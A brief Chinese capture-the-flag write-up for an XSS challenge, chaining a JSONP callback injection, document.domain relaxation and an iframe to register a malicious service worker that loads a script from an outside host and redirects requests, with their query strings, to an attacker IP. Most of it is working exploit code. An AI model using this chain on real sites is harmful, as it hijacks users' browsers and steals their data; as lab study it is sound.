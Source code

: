 整体思路



- 寻找一个jsonp-xss点   ➡️https://xss.xss.eec5b2.challenge.gcsis.cn/login?callback=alert(1)//

- 将两个子域降域 Bypass 同源
- 在xss子域中iframe拉取auth子域，并注入恶意Servive worker 拦截请求，发送至自己的vps
- 通过jsonp函数+script-src属性跨域加载js



test.js

```javascript
document.domain = "xss.eec5b2.challenge.gcsis.cn";
var iframetest = document.createElement('iframe');
iframetest.src = 'https://auth.xss.eec5b2.challenge.gcsis.cn/';
iframetest.addEventListener("load", function(){ 
	iframetest.contentWindow.eval(`navigator.serviceWorker.register("/api/loginStatus?callback=importScripts('//li3hiu.lihuaiqiu.repl.co/sw.js');//")`)
});
document.body.appendChild(iframetest);
```

sw.js

```javascript
self.addEventListener('install', function(event) {
        console.log('install ok!');
});
self.addEventListener('fetch', function (event) {
    var body = '<script>location="http://139.224.236.99?lih3iu"+location.search</script>';
    var init = {headers: {"Content-Type": "text/html"}};
    
    var res = new Response(body, init);
    event.respondWith(res.clone());
    
});
```



最终exp



```
https://xss.xss.eec5b2.challenge.gcsis.cn/login?callback=jsonp("https://li3hiu.lihuaiqiu.repl.co/test.js");
```



![0BMCrV.png](https://s1.ax1x.com/2020/10/08/0BMCrV.png)
